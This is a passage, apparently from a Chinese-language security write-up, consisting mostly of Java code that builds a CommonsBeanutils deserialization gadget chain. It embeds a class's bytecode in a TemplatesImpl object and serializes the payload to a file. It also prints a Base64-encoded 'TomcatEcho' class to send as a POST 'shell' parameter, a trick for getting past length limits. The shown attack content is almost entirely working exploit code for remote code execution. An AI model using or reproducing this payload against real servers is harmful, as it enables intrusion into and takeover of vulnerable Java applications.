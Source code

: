```java
        return true;
    }
}
```
post_run类代码实现：
通过CommonsBeanutils利用链加载TD类的字节码，生成序列化数据
```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;

import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.PriorityQueue;

//post字节码绕过长度限制
public class post_run {
    public static void main(String[] args) {
        try {
            //获取字节码
            ClassPool pool = ClassPool.getDefault();
            pool.insertClassPath(new ClassClassPath(post_run.class.getClass()));
            CtClass ctClass = pool.get("TD");
            ctClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
            byte[] classBytes = ctClass.toBytecode();

            CtClass ctClass2 = pool.get("TomcatEcho");
            byte[] classBytes2 = ctClass2.toBytecode();
            System.out.println("post请求参数shell\n" + Base64.getEncoder().encodeToString(classBytes2));

            TemplatesImpl templates = TemplatesImpl.class.newInstance();
            setField(templates, "_name", "name");
            setField(templates, "_bytecodes", new byte[][]{classBytes});
            setField(templates, "_tfactory", new TransformerFactoryImpl());
            setField(templates, "_class", null);

            BeanComparator beanComparator = new BeanComparator("outputProperties", String.CASE_INSENSITIVE_ORDER);

            PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);

            setField(priorityQueue, "queue", new Object[]{templates, templates});
            setField(priorityQueue, "size", 2);

            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./CommonsBeanutils"));
            outputStream.writeObject(priorityQueue);
            outputStream.close();

//            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./CommonsBeanutils"));
//            inputStream.readObject();
//            inputStream.close();
        } catch (Exception e) {
        }

    }
```